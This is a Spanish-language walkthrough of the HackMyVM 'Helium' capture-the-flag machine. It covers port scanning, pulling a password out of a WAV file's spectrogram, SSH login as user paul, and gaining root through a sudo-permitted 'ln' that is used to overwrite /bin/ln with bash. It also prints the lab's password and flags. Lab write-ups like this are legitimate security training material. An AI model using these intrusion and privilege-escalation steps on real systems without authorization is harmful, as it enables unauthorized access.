

# Helium HackMyVM (Easy- Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-08 06:35 EDT
Nmap scan report for 192.168.5.7
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:f6:55:5f:c6:fa:fb:14:15:ae:4a:2b:38:d8:4a:30 (RSA)
|   256 b7:ac:87:6d:c4:f9:e3:9a:d4:6e:e0:4f:da:aa:22:20 (ECDSA)
|_  256 fe:e8:05:af:23:4d:3a:82:2a:64:9b:f7:35:e4:44:4a (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: RELAX
MAC Address: 08:00:27:0C:C2:6E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.49 seconds
```

Veremos que hay un puerto `80` en el que se aloja una pagina web, si entramos dentro veremos una pagina con un audio insertado, que si lo reproducimos suena como unas campanas pequeñas, pero nada interesante.

Si inspeccionamos el codigo veremos lo siguiente:

```html
<!-- Please paul, stop uploading weird .wav files using /upload_sound -->
```

Vemos que ya tenemos un nombre de usuario llamado `paul`, si seguimos investigando veremos que el siguiente link:

```html
<link href="[bootstrap.min.css](view-source:http://192.168.5.7/bootstrap.min.css)" rel="stylesheet">
```

Que si le damos nos lleva a esta parte:

```css
/yay/mysecretsound.wav
```

Podemos creer que es un directorio con dicho archivo, si entramos dentro efectivamente nos descargara el archivo de la musica.

```
URL = http://<IP>/yay/mysecretsound.wav
```

## Escalate user paul

### audacity

Si lo escuchamos nos escucharemos nada interesante, pero al llamarse `secretsound` podemos deducir que algo oculto esconde, por lo que vamos a probar a realizar un `Espectograma` ha dicho audio, vamos a utilizar la herramienta llamada `audacity`.

```shell
sudo apt install audacity
```

Para abrirlo ejecutaremos simplemente:

```shell
audacity
```

Una vez abierto abriremos el audio `.wav` y cargara el audio viendolo de esta forma:

<figure><figcaption></figcaption></figure>

Ahora le tendremos que dar al siguiente boton:

<figure><figcaption></figcaption></figure>

Le daremos a la opcion `Spectogram` y veremos lo siguiente:

<figure><figcaption></figcaption></figure>

Veremos que hay un mensaje `oculto` que pone lo siguiente:

```
dancingpassyo
```

Ahora vamos a probarlo con el usuario que encontramos para loguearnos por `SSH` de la siguiente forma:

### SSH

```shell
ssh paul@<IP>
```

Metemos como contraseña `dancingpassyo` y con esto veremos que estaremos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
ilovetoberelaxed
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for paul on helium:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User paul may run the following commands on helium:
    (ALL : ALL) NOPASSWD: /usr/bin/ln
```

Veremos que podemos ejecutar `ln` como el usuario `root`, por lo que haremos lo siguiente.

```shell
sudo ln -fs /bin/bash /bin/ln
sudo ln
```

Y con esto seremos `root`:

```
root@helium:/home/paul# whoami
root
```

Por lo que vamos a leer la `flag` de `root`:

> root.txt

```
ilovetoberoot
```
